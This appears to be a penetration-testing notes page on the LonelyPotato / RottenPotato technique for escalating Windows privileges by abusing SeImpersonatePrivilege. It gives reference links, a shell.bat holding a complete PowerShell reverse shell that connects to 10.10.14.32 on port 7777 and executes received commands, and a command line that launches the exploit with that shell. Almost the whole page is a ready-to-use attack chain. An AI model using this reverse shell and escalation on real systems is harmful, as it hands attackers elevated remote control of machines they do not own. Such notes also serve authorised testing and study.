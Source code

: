 # LonelyPotato - SeImpersonatePrivilege

https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation

https://github.com/decoder-it/lonelypotato/blob/master/RottenPotatoEXE/MSFRottenPotato.exe

https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

![](../.gitbook/assets/image%20%2840%29.png)

Example:

![](../.gitbook/assets/image%20%2846%29.png)

## shell.bat

```c
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.32',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Usage

```text
lonelypotato.exe t shell.bat
```

![](../.gitbook/assets/image%20%2837%29.png)

![](../.gitbook/assets/image%20%2844%29.png)

